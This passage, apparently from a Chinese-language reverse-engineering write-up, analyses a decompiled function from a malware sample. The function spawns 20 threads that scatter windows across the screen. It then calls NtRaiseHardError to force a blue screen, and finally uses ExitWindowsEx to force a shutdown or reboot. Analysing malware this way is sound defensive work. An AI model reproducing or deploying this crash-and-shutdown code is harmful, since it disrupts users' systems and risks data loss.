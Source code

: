 ##### sub_401021 函数分析

继续看看`sub_401021`函数

```c
BOOL __usercall sub_401021 @<eax>(int a1 @<ebp>)
{
    int v1;                                                             // esi
    int v2;                                                             // esi
    HMODULE LibraryA;                                                   // edi
    FARPROC RtlAdjustPrivilege;                                         // ebx
    FARPROC NtRaiseHardError;                                           // eax
    void(__cdecl * v6)(_DWORD, _DWORD, _DWORD, _DWORD, _DWORD, _DWORD); // esi
    HANDLE CurrentProcess;                                              // eax
    int v9;                                                             // [esp-20h] [ebp-28h]
    struct _TOKEN_PRIVILEGES v10;                                       // [esp-18h] [ebp-20h] BYREF
    int v11;                                                            // [esp-8h] [ebp-10h] BYREF
    HANDLE v12;                                                         // [esp-4h] [ebp-Ch] BYREF
    int v13;                                                            // [esp+0h] [ebp-8h] BYREF
    int v14;                                                            // [esp+4h] [ebp-4h]

    v1 = 20;
    do // 循环创建20个进程，随机出现在屏幕任意位置
    {
        CreateThread(0, 0x1000u, StartAddress, 0, 0, 0);
        Sleep(0x64u);
        --v1;
    } while (v1);
    v2 = v14;
    v14 = a1;
    v9 = v2;
    LibraryA = LoadLibraryA("ntdll");
    RtlAdjustPrivilege = GetProcAddress(LibraryA, "RtlAdjustPrivilege");
    NtRaiseHardError = GetProcAddress(LibraryA, "NtRaiseHardError");
    v6 = (void(__cdecl *)(_DWORD, _DWORD, _DWORD, _DWORD, _DWORD, _DWORD))NtRaiseHardError;
    if (RtlAdjustPrivilege && NtRaiseHardError)                               //触发蓝屏
    {
        ((void(__cdecl *)(int, int, _DWORD, char *, int, int))RtlAdjustPrivilege)(19, 1, 0, (char *)&v13 + 3, v13, v9);
        v6(-1073741790, 0, 0, 0, 6, &v11);
    }
    CurrentProcess = GetCurrentProcess();
    OpenProcessToken(CurrentProcess, 0x28u, &v12);
    LookupPrivilegeValueW(0, L"SeShutdownPrivilege", &v10.Privileges[0].Luid);
    v10.PrivilegeCount = 1;
    v10.Privileges[0].Attributes = 2;
    AdjustTokenPrivileges(v12, 0, &v10, 0, 0, 0);
    return ExitWindowsEx(6u, 0x10007u);                                 // 关闭系统，退出Windows，关机/重启
}
```
